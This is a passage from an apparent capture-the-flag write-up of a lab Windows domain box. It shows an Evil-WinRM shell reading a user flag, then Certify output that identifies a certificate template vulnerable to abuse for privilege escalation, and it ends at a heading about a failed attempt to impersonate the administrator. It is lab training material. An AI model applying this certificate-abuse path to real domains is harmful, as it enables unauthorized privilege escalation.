 ```
-ar---        7/15/2023   8:41 PM             34 user.txt


*Evil-WinRM* PS C:\Users\svc_ldap\Desktop> type user.txt
34223a1a6fb9dfc689f5b6f485c6db67
```
# PE - Certify found a vulnerable certificate
The name of the box suggests certificate authority. There was also a Certs directory on the C drive. A good indication to run `Certify` to check for vulnerable certificates. It discovered a vulnerable certificate with a template name of CorpVPN.

```
[!] Vulnerable Certificates Templates :

    CA Name                               : authority.authority.htb\AUTHORITY-CA
    Template Name                         : CorpVPN
    Schema Version                        : 2
    Validity Period                       : 20 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT_CHECK_USER_DS_CERTIFICATE
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Document Signing, Encrypting File System, IP security IKE intermediate, IP security user, KDC Authentication
, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Document Signing, Encrypting File System, IP security IKE intermediate, IP security user, KDC Authentication
, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Domain Computers          S-1-5-21-622327497-3269355298-2248959698-515
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
      Object Control Permissions
        Owner                       : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
        WriteOwner Principals       : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
                                      HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
        WriteDacl Principals        : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
                                      HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
        WriteProperty Principals    : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
                                      HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
```
# PE - Attempting to set altname as administrator - FAILED